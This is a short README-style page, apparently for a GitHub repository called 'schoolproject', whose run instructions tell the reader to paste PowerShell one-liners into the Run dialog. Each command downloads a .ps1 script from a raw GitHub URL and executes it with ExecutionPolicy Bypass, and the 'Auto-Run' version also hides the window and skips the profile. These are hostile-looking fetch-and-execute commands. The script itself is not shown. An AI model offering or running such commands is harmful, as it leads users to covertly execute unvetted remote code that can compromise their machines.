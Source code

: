 **How to run:**
- `Win`**+** `R`
- Paste:
```
powershell wget https://raw.githubusercontent.com/sJ3Wpid/schoolproject/main/run.ps1 -outfile run.ps1; powershell -ExecutionPolicy Bypass -File .\run.ps1
```
- `Ctrl` **+** `Sift` **+** `Enter`

**Auto-Run
```
powershell -Sta -Nop -Window Hidden wget https://raw.githubusercontent.com/sJ3Wpid/schoolproject/main/autorun.ps1 -outfile run.ps1; powershell -Sta -Nop -Window Hidden -ExecutionPolicy Bypass -File .\run.ps1
```
